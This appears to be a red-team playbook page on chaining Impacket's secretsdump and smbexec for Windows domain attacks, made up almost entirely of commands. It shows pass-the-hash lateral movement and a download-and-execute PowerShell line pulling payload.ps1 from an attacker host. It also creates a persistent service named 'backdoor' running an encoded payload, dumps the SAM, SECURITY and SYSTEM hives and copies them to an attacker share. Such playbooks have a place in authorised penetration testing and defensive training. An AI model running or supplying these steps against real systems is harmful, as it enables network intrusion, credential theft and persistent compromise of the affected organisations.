 ## Attack Chain Integration

### Lateral Movement via SMB Execution
```bash
# Step 1: Obtain credentials via various methods
python3 secretsdump.py domain.com/user:password@dc.domain.com

# Step 2: Use extracted NTLM hashes for lateral movement
python3 smbexec.py -hashes :extracted_ntlm_hash domain.com/admin@target1.domain.com

# Step 3: Chain execution across multiple systems
python3 smbexec.py -hashes :admin_hash domain.com/admin@target2.domain.com
python3 smbexec.py -hashes :admin_hash domain.com/admin@target3.domain.com
```

### Post-Exploitation Command Execution
```bash
# Step 1: Establish execution on compromised system
python3 smbexec.py domain.com/admin:password@192.168.1.100

# Step 2: Execute post-exploitation commands
C:\> whoami /all
C:\> net localgroup administrators
C:\> wmic process list full
C:\> reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\ProfileList"

# Step 3: Deploy additional tools or payloads
C:\> powershell -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://attacker/payload.ps1')"
```

### Persistence Through Service Creation
```bash
# Step 1: Connect via smbexec
python3 smbexec.py domain.com/admin:password@192.168.1.100

# Step 2: Create persistent service
C:\> sc create backdoor binpath= "cmd.exe /c powershell.exe -enc <base64_payload>" start= auto
C:\> sc start backdoor

# Step 3: Verify persistence mechanism
C:\> sc query backdoor
C:\> tasklist | findstr powershell
```

### Credential Harvesting from Remote System
```bash
# Step 1: Execute on target via smbexec
python3 smbexec.py domain.com/admin:password@192.168.1.100

# Step 2: Extract credentials using various techniques
C:\> reg save hklm\sam C:\temp\sam.hive
C:\> reg save hklm\security C:\temp\security.hive
C:\> reg save hklm\system C:\temp\system.hive

# Step 3: Transfer files back and extract hashes
C:\> copy C:\temp\*.hive \\attacker_ip\share\
# Use secretsdump.py locally on extracted hives
```
